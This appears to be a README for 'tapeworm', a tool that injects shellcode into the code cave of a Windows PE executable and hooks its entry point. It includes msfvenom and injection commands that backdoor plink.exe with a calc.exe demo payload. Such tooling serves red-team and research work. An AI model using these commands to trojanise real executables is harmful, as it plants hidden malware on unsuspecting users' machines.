 # tapeworm - shellcode injector

Tapeworm injects your shellcode into the code cave at the end of the `.text` section of your PE file.

## Installation

Just install the dependencies:

```bash
pip install -r requirements.txt
```

## Usage

```
usage: ./tapeworm.py [-h] -p PAYLOAD -i INPUT -o OUTPUT [options...]

options:
  -h, --help            show this help message and exit
  -t, --use-create-thread
                        Run the shellcode in a new thread. Tapeworm will inject an
                        additional shellcode that will run CreateThread. The created
                        thread will run your shellcode immediately
  -a INJECTION_ADDRESS, --injection-address INJECTION_ADDRESS
                        RVA where the jump to the shellcode should be injected. 
                        If not specified the entry point of the PE will be used.
  -e EXTEND_CAVE, --extend-cave EXTEND_CAVE
                        Move the code cave start address EXTEND_CAVE bytes back.
                        This will result in EXTEND_CAVE last bytes of instructions in .text to be overwritten!
                        You may want to try this if the code cave is too small for your shellcode,
                        but it will make the main program break at some unexpected point.

required named arguments:
  -p PAYLOAD, --payload PAYLOAD
                        shellcode file
  -i INPUT, --input INPUT
                        input PE path
  -o OUTPUT, --output OUTPUT
                        output PE path
```

Example:

```bash
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -o payload.bin
python tapeworm.py \
  -p payload.bin \
  -i plink.exe \
  -o injected_plink.exe \
  --use-create-thread
```

Sometimes injecting the `jmp <your-shellcode>` instruction at PE's entry point will crash the app if, for example, one of the replaced instructions contains a relocation (tapeworm won't edit them). In that case, run your favorite debugger, find some safe address to inject `jmp` to and pass it via `--injection-address`:

```bash
python tapeworm.py \
  -p payload.bin \
  -i plink.exe \
  -o injected_plink.exe \
  --injection-address 4d00
```

## What does it do?

It tries to inject your shellcode into the code cave at the end of the `.text` section.

Then it alters a few first instructions of your PE's entry point (or the instructions at the address passed via the `--injection-address` switch) to jump to the shellcode.

After the shellcode is executed, registers and flags are restored, and execution is resumed.

If you pass `--use-create-thread`, your shellcode will be ran in a new thread. Tapeworm will inject additional shellcode that runs `CreateThread`.

**NOTE**: The 32-bit asm code that calls `CreateThread` is based on the code from [this blog post by Ilia Dafchev](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html). The 64-bit version is based on the code [this blog post by Nytro Security](https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/).